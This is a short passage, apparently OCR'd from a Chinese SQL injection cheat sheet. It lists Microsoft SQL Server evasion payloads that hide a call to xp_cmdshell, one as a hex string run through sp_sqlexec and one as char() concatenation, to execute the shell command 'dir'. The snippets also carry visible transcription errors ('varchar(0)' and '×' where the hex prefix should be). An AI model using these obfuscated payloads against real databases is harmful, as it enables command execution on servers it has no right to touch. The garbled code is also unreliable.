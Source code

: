 |  用 sp\_sqlexec  避免 EXEC() |      DECLARE @cmd as varchar(3000);<br />SET @cmd = convert(varchar(0),0×78705F636D647368656C6C202764697227);<br />exec sp_sqlexec @cmd;     |  
| 执行 xp_cmdshell 'dir'   |      DECLARE @tmp as varchar(MAX);<br />SET @tmp = char(88)+char(80)+char(95)+char(67)+char(77)+<br />char(68)+char(83)+char(72)+char(69)+char(76)+char(76);<br />exec @tmp 'dir';     |  







